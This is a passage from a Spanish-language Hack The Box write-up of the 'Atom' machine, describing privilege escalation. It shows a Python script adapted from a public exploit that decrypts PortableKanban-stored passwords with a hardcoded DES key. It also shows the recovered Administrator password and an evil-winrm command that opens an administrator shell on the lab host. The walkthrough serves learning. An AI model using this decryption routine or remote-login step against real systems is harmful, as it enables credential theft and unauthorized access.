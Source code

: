 Y vemos la estructura de la tabla de la cual encontramos valores anteriormente (los de **administrator**)...

### Desencriptamos la contraseña de <u>Administrator</u> [⌖](#privesc-encrypted-revealed) {#privesc-encrypted-revealed}

Esto último me recordó una máquina de **HTB** (***pequeño spoiler***, si no lo quieres, cierra los ojos, pero que puedas leer lo mínimo, busca esto en unas 4, 5 líneas abajo: `Es practicamente lo mismo ...`, sigue desde ahí 😜) la máquina **Sharp**, en ella habíamos usado también **PortableKanban** y debíamos (también \<redundancia :P\>) desencriptar unas contraseñas que estaban almacenadas en un archivo `.pk3`. Esto lo logramos gracias a un [exploit](https://www.exploit-db.com/exploits/49409) que tomaba ese archivo y con ayuda de una clave **DES** conseguía la contraseña en texto plano.

`Es prácticamente lo mismo`, solo que en nuestro caso no tenemos ese tipo de archivos, simplemente la password. Juguemos con el script y hagámosle unas modificaciones:

* [PortableKanban 4.3.6578.38136 - Encrypted Password Retrieval](https://www.exploit-db.com/exploits/49409).

Y a nosotros nos quedaria así:

```py
import base64
from des import *

def decode(hash):
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print("Contraseña: " + decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"))
```

En su ejecución logramos el cometido, vemos la contraseña en texto plano:

```bash
❱ python3 kanban_decrypt.py 
Contraseña: kidvscat_admin_@123
```

Listos...

Recordando que tenemos el puerto **5985** (WinRM) activo, podemos aprovechar el uso de [evil-winrm](https://github.com/Hackplayers/evil-winrm) para obtener una **PowerShell** en el sistema (siempre y cuando las credenciales sean válidas, no nos emocionemos e.e):

```bash
❱ evil-winrm -i 10.10.10.237 -u 'Administrator' -p 'kidvscat_admin_@123'
```

Ejecutamos yyyyyyy:

![340bash_evilwinrm_adminSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/atom/340bash_evilwinrm_adminSH.png)

Estamos inside de la máquina como el usuario **Administrator** (:

Tomemos las flags...
